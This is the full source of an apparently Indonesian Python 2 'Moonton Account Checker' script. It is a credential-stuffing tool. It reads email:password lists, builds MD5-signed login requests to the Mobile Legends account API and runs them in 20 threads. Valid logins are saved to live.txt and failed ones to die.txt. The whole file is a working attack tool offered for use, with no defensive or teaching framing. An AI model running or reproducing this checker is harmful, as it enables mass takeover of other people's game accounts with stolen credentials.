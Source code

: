 #!usr/bin/python2.7
# coding=utf-8

############################################################
# Name           : Moonton Account Checker                 #
# File           : main.py                                 #
############################################################

import requests, os, sys, hashlib, json
from multiprocessing.pool import ThreadPool

if sys.version_info.major != 2:
  exit('\n[WARNING] Gunakan python versi 2')

class MOONTON:
  def __init__(self):
    self.userdata = []
    self.live = []
    self.die = []
    self.api = 'https://accountmtapi.mobilelegends.com/'
    print('''\033[0m

|V| _  _ __ _|_ _ __    /  |_  _  _  |  _  __
| |(_)(_)| | |_(_)| |   \__| |(/_(_  |<(/_ | 
---------------------------------------------
          -  By Setiawan007 -
---------------------------------------------\n''')

  def main(self):
    print('[!] Pemisah email:password atau email|password\n')
    empas = raw_input('[?] List empas (ex: list.txt): ')
    if os.path.exists(empas):
      for data in open(empas,'r').readlines():
        try:
          user = data.strip().split('|')
          if user[0] and user[1]:
            self.userdata.append({
              'email': user[0],
              'pw': user[1],
              'userdata': data.strip()
            })
        except IndexError:
          try:
            user = data.strip().split(':')
            if user[0] and user[1]:
              self.userdata.append({
              'email': user[0],
              'pw': user[1],
              'userdata': data.strip()
            })
          except: pass
      if len(self.userdata) == 0:
        exit('[!] Empas tidak ada atau tidak valid pastikan berformat email:pass atau email|pass')
      print('[*] Total {0} Account\n'.format(str(len(self.userdata))))
      ThreadPool(20).map(self.validate, self.userdata)
      print('\n[#] BERHASIL: '+str(len(self.live))+' - saved: live.txt')
      print('[#] GAGAL: '+str(len(self.die))+' - saved: die.txt')
      exit(0)
    else:
      print('[!] File tidak ditemukan "{0}"'.format(empas))

  def build_params(self, user):
    md5 = hashlib.new('md5')
    md5.update(user['pw'].encode('utf-8'))
    md5pwd = md5.hexdigest()
    sign = 'account={0}&md5pwd={1}&op=login'.format(user['email'], md5pwd)
    md5 = hashlib.new('md5')
    md5.update(sign.encode('utf-8'))
    hashed = md5.hexdigest()
    return json.dumps({
      'op': 'login',
      'sign': hashed,
      'params': {
        'account': user['email'],
        'md5pwd': md5pwd,
      },
      'lang': 'cn'
    })

  def validate(self, user):
    try:
      data = self.build_params(user)
      response = requests.post(self.api, data=data).json()
      if response['message'] == 'Error_Success':
        print('[\033[92mBERHASIL\033[0m] '+user['userdata'])
        self.live.append(user['userdata'])
        open('live.txt','a').write(str(user['userdata'])+'\n')
      else:
        print('[\033[91mGAGAL\033[0m] '+user['userdata'])
        self.die.append(user['userdata'])
        open('die.txt','a').write(str(user['userdata'])+'\n')
    except:
      self.validate(user)

if __name__ == '__main__':
  (MOONTON().main())
#
#
#
#
